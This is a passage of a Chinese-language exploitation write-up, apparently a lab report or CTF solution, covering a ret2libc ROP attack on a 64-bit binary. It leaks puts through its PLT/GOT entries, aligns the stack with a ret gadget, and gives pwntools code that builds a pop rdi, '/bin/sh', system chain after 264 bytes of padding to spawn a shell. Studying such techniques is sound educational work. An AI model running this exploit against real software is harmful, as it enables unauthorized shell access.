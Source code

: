   ​	之后，我们就需要将puts_plt与puts_got压入栈中。获取puts_plt的值较为简单，可以通过gdb直接查看到；而获取puts_got我们可以选择使用`objdump -R`指令，如下，puts_got的值应为0x404018

  ![image-20210406104106621](report.assets/image-20210406104106621.png)	有了这些值后，正常来说就应该可以直接构造payload了，但因为64bit下，glibc-2.27版本中的库函数使用了sse指令，要求计入函数时栈要16字节对齐，所以我们可以在一开始插入一个指向ret的gadget，使得sp对齐，然后就可以继续构造ROP payload了，如下:

  ![image-20210406105457624](report.assets/image-20210406105457624.png)

  我让程序在输出完之后跳回到hear( )函数进行read，以便进行step2

- Step2

  ​    首先我们确定要放入rop chain的内容，首先应该是一个指向pop rdi的gadget，这个同上通过ROPgadget工具获得。然后是参数'/bin/sh'，最后是system函数的地址，这些值在有了libc的基地址之后都能较方便的获得

  ```python
  libc.address = puts - libc.symbols['puts']
  
  bin_sh = libc.search('/bin/sh').next()
  
  system = libc.symbols['system']
  ```

  后面就是构造payload并传递参数，如下：

  ```python
  rop_chain2 = [
      pop_rdi,
      bin_sh,
      system
  ]
  rop_chain2 = ''.join([ p64(i) for i in rop_chain2])
  
  payload2 = 'A'*(256+8) + rop_chain2
  
  p.sendline(payload2)
  p.interactive()
  ```
